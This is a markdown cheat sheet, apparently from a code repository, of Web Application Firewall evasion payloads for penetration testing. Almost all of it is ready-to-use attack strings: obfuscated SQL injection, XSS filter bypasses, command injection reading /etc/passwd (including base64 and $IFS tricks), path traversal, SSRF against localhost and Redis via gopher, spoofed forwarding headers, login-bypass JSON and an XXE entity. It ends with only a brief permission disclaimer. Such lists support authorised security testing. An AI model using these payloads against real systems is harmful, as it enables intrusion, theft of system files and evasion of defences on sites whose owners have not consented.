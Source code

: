 # WAF Evasion Payloads Cheat Sheet

This document contains various Web Application Firewall (WAF) evasion techniques and payloads for penetration testing purposes.

## Table of Contents
- [Basic Evasion Techniques](#basic-evasion-techniques)
- [SQL Injection Evasion](#sql-injection-evasion)
- [XSS Evasion](#xss-evasion)
- [Command Injection Evasion](#command-injection-evasion)
- [Path Traversal Evasion](#path-traversal-evasion)
- [SSRF Evasion](#ssrf-evasion)
- [Miscellaneous Techniques](#miscellaneous-techniques)

## Basic Evasion Techniques

```http
# Case variation
SELeCT * FROM users

# Whitespace variations
SELECT/**/*/**/FROM/**/users
SELEC%09T%0D*%0CFROM%0Ausers

# Null bytes
%00SELECT * FROM users
SELECT * FROM users%00

# URL encoding
%53%45%4C%45%43%54%20%2A%20%46%52%4F%4D%20%75%73%65%72%73

# Double URL encoding
%2553%2545%254C%2545%2543%2554%2520%252A%2520%2546%2552%254F%254D%2520%2575%2573%2565%2572%2573

# HTML encoding
&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#42;&#32;&#70;&#82;&#79;&#77;&#32;&#117;&#115;&#101;&#114;&#115;

# Unicode normalization
ＳＥＬＥＣＴ ＊ ＦＲＯＭ ｕｓｅｒｓ
```

## SQL Injection Evasion

```sql
-- Comment evasion
SELECT/*avoid*/*/*WAF*/FROM users--
SELECT*FROM(users)WHERE/**/1=1--

-- Function separation
CONCAT('sel','ect') GROUP_CONCAT('us','er')

-- Alternative syntax
(SELECT * FROM users)
`users` WHERE 1=1

-- Hex encoding
0x53454C454354202A2046524F4D207573657273

-- Char() function
CHAR(83)+CHAR(69)+CHAR(76)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(32)+CHAR(42)+CHAR(32)+CHAR(70)+CHAR(82)+CHAR(79)+CHAR(77)+CHAR(32)+CHAR(117)+CHAR(115)+CHAR(101)+CHAR(114)+CHAR(115)

-- Time-based bypass
1 AND (SELECT sleep(5) FROM users WHERE username='admin')--
```

## XSS Evasion

```html
<!-- Basic tag evasion -->
<scr<script>ipt>alert(1)</scr</script>ipt>
<sCrIpt>alert(1)</ScRiPt>

<!-- Attribute evasion -->
<img src=x onerror=alert(1)>
<img src=x oneonerrorrror=alert(1)>

<!-- JavaScript evasion -->
<script>eval('al'+'ert(1)')</script>
<script>window['al'+'ert'](1)</script>

<!-- SVG payloads -->
<svg onload=alert(1)>
<svg><script>alert(1)</script></svg>

<!-- Unicode and encoding -->
<iframe src=javascript:%61%6C%65%72%74%28%31%29></iframe>
```

## Command Injection Evasion

```bash
# Basic bypass
cat /etc/passwd
cat$IFS/etc/passwd
cat${IFS}/etc/passwd

# Command substitution
`cat /etc/passwd`
$(cat /etc/passwd)

# Concatenation
c"at /et"c/pa"sswd"

# Encoding
echo$IFS"Y2F0IC9ldGMvcGFzc3dk"|base64$IFS-d

# Wildcards
/bin/c?t /etc/pass??
```

## Path Traversal Evasion

```http
# Basic bypass
../../../../etc/passwd
....//....//....//etc/passwd

# URL encoding
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd

# Double encoding
%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd

# Null byte
../../../../etc/passwd%00

# UNC bypass (Windows)
\\localhost\c$\windows\win.ini
```

## SSRF Evasion

```http
# Basic bypass
http://127.0.0.1
http://[::1]
http://2130706433

# URL encoding
http://%6c%6f%63%61%6c%68%6f%73%74

# DNS rebinding
http://example.com@127.0.0.1
http://127.0.0.1.example.com

# Alternative schemes
dict://127.0.0.1:6379/info
gopher://127.0.0.1:6379/_info
```

## Miscellaneous Techniques

```http
# HTTP Parameter Pollution
?user=test&user=admin

# HTTP Header Injection
X-Forwarded-For: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1

# JSON WAF bypass
{"username":"admin'--","password":"test"}
{"username":"admin'||'1'='1","password":"test"}

# XML WAF bypass
<!ENTITY xxe SYSTEM "file:///etc/passwd">
```

## Notes

1. Always test payloads in a controlled environment
2. Different WAFs may require different evasion techniques
3. Combine multiple techniques for better results
4. Some payloads may need to be URL-encoded when sent in requests
5. WAF rules are constantly updated - stay current with new evasion methods

Remember: Only use these techniques on systems you have permission to test. Unauthorized testing is illegal.
